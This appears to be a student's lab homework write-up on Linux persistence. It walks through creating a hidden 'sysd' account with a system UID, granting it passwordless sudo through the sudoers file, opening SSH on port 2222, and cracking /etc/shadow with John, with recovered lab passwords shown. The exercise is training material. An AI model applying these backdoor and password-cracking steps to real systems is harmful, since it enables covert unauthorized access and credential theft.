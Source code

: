 ## Week 6 - Advanced Bash Homework

Create a secret user named `sysd`. Make sure this user doesn't have a home folder created.
```bash
useradd sysd
```
Give your secret user a password.
```bash
passwd sysd
```
*the password is "thecoolest"

Give your secret user a system UID < 1000.
```bash
usermod -u 990 sysd
```
Give your secret user the same GID
```bash
groupmod -g 990 sysd
```
Give your secret user full sudo access without the need for a password.
- `sudo visudo`
```bash
sysd ALL=(ALL) NOPASSWD:ALL
#I edited the sudoers file.
```

Test that sudo access works without your password

```bash
sudo -l #it worked!
sudo apt install tree
sudo -V
```

## Allow ssh access over port 2222.

Command to edit the `sshd_config` file:

```bash
sudo nano /etc/ssh/sshd_config
```

Command to restart the ssh service:
```bash
systemctl restart ssh
```
Exit the root account:
```bash
exit #to log out of root account
exit #to log out of target machine
```
SSH to the target machine using your `sysd` account and port 2222:
```bash
ssh sysd@192.168.0.11 -p 2222
```
Use sudo to switch to the root user
```bash
sudo su
```
## Crack _all_ the passwords

Ssh back to the system using your sysd account
```bash
ssh sysd@192.168.0.11 -p 2222
```

- Use John to crack the entire /etc/shadow file
```bash
john /etc/shadow --show
sysadmin:passw0rd:18387:0:99999:7:::
student:Goodluck!:18387:0:99999:7:::
mitnik:trustno1:18387:0:99999:7:::
babbage:freedom:18387:0:99999:7:::
lovelace:dragon:18387:0:99999:7:::
stallman:computer:18387:0:99999:7:::
turing:lakers:18387:0:99999:7:::
#my password for sysd was taking forever to crack, but I already know what it is: thecoolest
```
